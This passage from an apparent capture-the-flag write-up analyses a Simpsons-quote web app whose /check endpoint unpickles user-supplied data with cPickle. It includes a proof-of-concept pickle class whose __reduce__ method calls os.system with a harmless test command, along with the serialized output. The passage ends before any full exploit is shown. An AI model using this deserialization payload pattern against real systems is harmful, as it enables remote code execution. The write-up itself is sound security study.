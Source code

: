 When issuing a POST request to `/submit`, it is possible to upload a quote of a Simpsons character. The character is validated against the following whitelist:

```bash
WHITELIST = [
    "homer",
    "marge",
    "bart",
    "lisa",
    "maggie",
    "moe",
    "carl",
    "krusty"
]
```

If the request passes all validation checks, the data gets stored into a file under `/tmp/<id>.p`. The id equals the MD5 hash of the concatenation of character and quote.

When issuing a POST request to `/check` which includes the previously assigned id, the uploaded data either is read from the file and is displayed either directly or, in case it contains the string `p1`, get unpickled before showing it to the user.

The call to `cPickle.loads()` looks exploitable. The [Python library reference](`https://docs.python.org/2.2/lib/module-cPickle.html`) states that "The cPickle module supports serialization and de-serialization of Python objects". Further research showed that `cPickle` is a faster implementation of the original `pickle` module, and, same as the `pickle` module, should never be used to unpickle (deserialize) user-controlled input as this could lead to code execution: Objects can define custom code that gets executed during deserialization when declaring a `__reduce__` function. 

When calling `/check`, unpickling user-controlled input can be triggered when crafting a serialized Python object that passes all validation checks.

First, I played around and tried to produce some pickled objects, print them to console and unpickle them in order to see how the output looks like:

```python
import cPickle
import os
cmd = "echo Foobar; sleep 10"

class SomeObject(object):
    def __reduce__(self):
        return(os.system,(cmd,))

if __name__ == "__main__":
    print("[*] Dumping pickle: ")
    picklestring = cPickle.dumps(SomeObject())
    print(picklestring)
    print("[*] Loading pickle: ")
    cPickle.loads(picklestring)
```

Running the above code produces the following output:

```bash
$ python pickle-test.py 
[*] Dumping pickle: 
cposix
system
p1
(S'echo Foobar; sleep 10'
p2
tRp3
.
[*] Loading pickle: 
Foobar
```
